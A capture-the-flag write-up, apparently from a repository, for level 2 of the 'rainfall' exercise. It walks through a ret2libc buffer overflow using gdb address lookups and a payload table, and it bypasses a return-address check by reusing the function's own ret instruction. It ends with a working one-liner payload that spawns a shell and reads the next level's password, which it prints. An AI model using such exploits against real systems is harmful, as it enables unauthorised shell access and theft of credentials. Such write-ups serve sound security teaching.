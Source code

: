 ## Return of the libc (level2)

As in the last level, this [binary](source.c) uses gets, which allows us to
rewrite the return address of the function where it is called and to move the
instruction pointer where we want. The main difference here is that there is no
function calling a shell in the binary, so we will have to do it ourself.

For this we will execute an exploit called
[ret2libc](https://bufferoverflows.net/ret2libc-exploitation-example/), which
will simply make us return inside a libc function. To launch a shell all we have
to do is to get the [system](https://linux.die.net/man/3/system) function's
address and pass a command string like `/bin/sh` to it. We will also use exit as
system's own return address so that the exploit exits cleanly.

### step 1: Get the addresses

```shell
# run gdb on the binary
gdb ./level2
# break on main
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) run
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
# get system's address
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

Now that we have our two function addresses, all we need left is an address
pointing to a shell string. To do that we are going to include the said string
at the begining of our payload and use strdup's returned value as the command
argument for system.

```shell
# break in the p function
(gdb) b e
Breakpoint 2 at 0x80484da
(gdb) c
Continuing.

Breakpoint 2, 0x080484da in p ()
# disassemble the function
(gdb) disass
... # removed some lines for brevity
   0x08048534 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
...
# break on the instruction after the strdup call
(gdb) b *0x0804853d
Breakpoint 3 at 0x804853d
(gdb) c
Continuing.
# now we reach the gets call so input the command string
/bin/sh
/bin/sh # the puts call which gives us back what we entered

Breakpoint 3, 0x0804853d in p ()
# now that we passed the strdup call, see the return value
(gdb) p (char *)$eax
$4 = 0x804a008 "/bin/sh"
```

### step 2: Build the payload

| command string (8) | padding (72) | system (4) | exit (4)   | strdup return (4) |
|--------------------|--------------|------------|------------|-------------------|
| "/bin/sh"          | 0x909090...  | 0xb7e6b060 | 0xb7e5ebe0 | 0x804a008         |

> The padding is made of 0x90 bytes which are noop instructions. This is not
> really necessary since this part of the memory is not gonna be executed but
> this is an "exploit good practice" I guess. Also, the addresses contained
> in the payload will need to be reversed because the rainfall system is little
> endian.

We place the command string first so that it gets copied by the strdup call. It
is eight bytes long because it ends with a null byte. Then we add 72 bytes of
padding. The buffer to overflow is 76 bytes long and since the return address of
the function _p_ is at $ebp + 4, we need to add 4 bytes to start overwriting it.
After that we can place system's address where we will go once _p_ returns. The
exit address will be the return address of the system call and finally we can
pass the argument of system which is the result of the strdup call.

This would work in "normal" circumstances. But here, the binary checks that
_p_'s return address does not start with 0xb, which is the case here with
system's address. This broadly excludes any stack address or library functions.
The trick to remedy this is to use the ret instruction of the _p_ function
itself. As shown above, its address is _0x0804853e_, which passes the stack
test. We just have to insert it before the system address in the payload.

So instead of the p's ret instruction directly poping the system's address and
loading it into eip (the instruction pointer), it will loop on itself once
before eventually doing so. The overall logic, however, remains the same:

| command string (8) | padding (72) | ret        |system (4)  | exit (4)   | strdup return (4) |
|--------------------|--------------|------------|------------|------------|-------------------|
| "/bin/sh"          | 0x909090...  | 0x0804853e | 0xb7e6b060 | 0xb7e5ebe0 | 0x804a008         |

```shell
# finally feed the complete payload to the binary
(python -c 'print "/bin/sh\x00" + "\x90" * 72 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\x08\x04\xa0\x08"[::-1]'; cat) | ./level2
/bin/sh
# the shell is yours
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

